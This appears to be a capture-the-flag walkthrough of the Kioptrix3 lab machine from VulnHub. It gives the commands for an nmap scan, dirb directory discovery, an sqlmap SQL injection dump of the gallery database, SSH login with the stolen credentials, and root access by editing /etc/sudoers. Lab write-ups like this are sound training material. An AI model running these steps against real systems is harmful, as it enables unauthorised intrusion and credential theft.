




### target:		kioptrix3 by Kioptrix Team

### hosted by:		vulnhub.com

### testing platform:	kali linux 2017

### walkthrough by:	worzel_gummidge


the attacker runs an **nmap** port, os and version scan againat the target server.

```bash
nmap -n -T5 -A -p1-65535 192.168.56.101
```


**nmap** shows that *ssh* and *http* on *tcp80* are running on the target. the attacker runs **dir** to probe port *tcp80* further

```bash
dirb http://kioptrix3.com /usr/share/dirb/wordlists/big.txt
```


through **dirb** the attaccker discovers *kioptrix.com/gallery* and captures the following *http* request using **burp**. the request file is fed into **sqlmap** and an *sql injection* vulnerability is found



```bash
sqlmap -r sql.txt --risk 3 --level 5 --dump-all
```


the attacker uses the credentials found in the database to ssh into the target




to gain root privileges the attacker edits the /etc/sudoers file

```bash
export TERM=xterm
sudo ht /etc/sudoers
```




```bash
sudo /bin/bash
```


